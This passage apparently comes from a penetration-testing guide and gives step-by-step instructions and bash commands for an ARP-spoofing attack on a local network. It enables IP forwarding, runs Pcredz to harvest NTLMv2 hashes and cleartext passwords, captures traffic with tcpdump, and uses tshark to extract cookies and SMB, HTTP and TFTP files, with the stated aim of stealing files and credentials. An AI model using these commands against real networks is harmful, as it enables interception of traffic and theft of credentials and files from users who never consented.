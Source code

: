 If you want to do a packet capture to steal files transferred over the wire while you're spoofing you can do the tcpdump command.

Then use the python script followed by the fields it needs to generate the bash script, which is used to run the spoofing.

I recommend 5 host at a time over 5 or 10 minutes. Any files too big to not be captured at this rate are most likely not worth your time.

At this point everything that is needed should be in place, so go ahead and fire off the arp spoofing script in the syntax shown below.

While it is running you can copy out the NTLMv2 challenge responses, cleartext credentials, and anything else that may show up if it seems usable. 

After its done running you can use the tshark commands on the tcpdump file to extract any files that were captured in the process.


```bash
sudo echo "1" > /proc/sys/net/ipv4/ip_forward
sudo Pcredz -i eth0
tcpdump -ni eth0 -w arpspoof{x}.cap
./arpspoof.py hostsFile arp.sh gatewayIP simultaneousHosts timeoutMinutes always-attack-ips
chmod +x arp.sh
# doing it this way allows you to cancel individual spoofing sessions. doing ./arp.sh will chunk them all together
. ./arp.sh
# Watch Pcredz for NTLMv2 C/R Hashes, cleartext passwords, and other juicy bits

# After done

# Extract HTTP fields:
tshark -nr arpspoof{x}.cap -Y http.request -T fields -e http.host -e http.user_agent | sort -u
tshark -nr arpspoof{x}.cap -Y http.request -T fields -e http.host -e http.user_agent -e http.request.full_uri -e http.cookie | sort -u
# Extract SMB Files captured
mkdir smbfiles
tshark -nr arpspoof{x}.cap --export-objects smb,smbfiles
# Extract files from HTTP traffic:
mkdir httpfiles
tshark -nr arpspoof{x}.cap --export-objects http,httpfiles
# Extract files from TFTP traffic:
mkdir tftpfiles
tshark -nr arpspoof{x}.cap --export-objects tftp,tftpfiles
```

If you run into an error running pcredz regarding libcap. Run these commands.
```bash
wget http://http.us.debian.org/debian/pool/main/p/python-libpcap/python-libpcap_0.6.4-1_amd64.deb
dpkg -i python-libpcap_0.6.4-1_amd64.deb
```


## Wireless
